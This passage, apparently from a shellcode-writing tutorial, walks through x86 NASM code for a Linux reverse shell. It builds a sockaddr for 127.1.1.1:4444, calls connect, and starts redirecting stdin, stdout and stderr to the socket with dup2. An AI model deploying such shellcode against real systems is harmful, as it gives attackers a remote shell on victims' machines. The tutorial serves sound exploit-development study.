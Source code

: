 So you need to place arguments at this point. Firstly, `sin_addr`, then `sin_port` and the last one is `sin_family` (remember: reverse order!):     
```nasm
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
push 0x0101017f  ; sin_addr = 127.1.1.1 (network byte order)
push word 0x5c11 ; sin_port = 4444
```

![push IP port](./images/14/2021-10-16_13-05.png){width="80%"}       

`ebx` contains 0x1 at this point because of pressing `socket_type` during the `socket ()` call, so after increasing `ebx`, ebx should be `0x2` (the `sin_family` argument):

```nasm
inc  ebx         ; ebx = 0x02
push word bx     ; sin_family = AF_INET
```

Then save the stack pointer to this sockaddr struct to `ecx`:

```nasm
mov  ecx, esp    ; move stack pointer to sockaddr struct
```

Then:
```nasm
push 0x10        ; addrlen = 16
push ecx         ; const struct sockaddr *addr
push edx         ; sockfd
mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
inc  ebx         ; sys_connect (0x3)
int  0x80        ; syscall (exec sys_connect)
```

### redirect stdin, stdout and stderr via dup2

Now we set start-counter and reset `ecx` for loop:             

```nasm
push 0x2         ; set counter to 2
pop  ecx         ; zero to ecx (reset for newfd loop)
```

`ecx` is now ready for the loop, just saving the socket file descriptor to `ebx` as you need it there during the dup2-syscall:

```nasm
xchg ebx, edx    ; save sockfd
```

Then, `dup2` takes 2 arguments:         
```cpp
int dup2(int oldfd, int newfd);
```

Where `oldfd` (ebx) is the client socket file descriptor and `newfd` is used with stdin(0), stdout(1) and stderr(2):
```cpp
for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
}
```
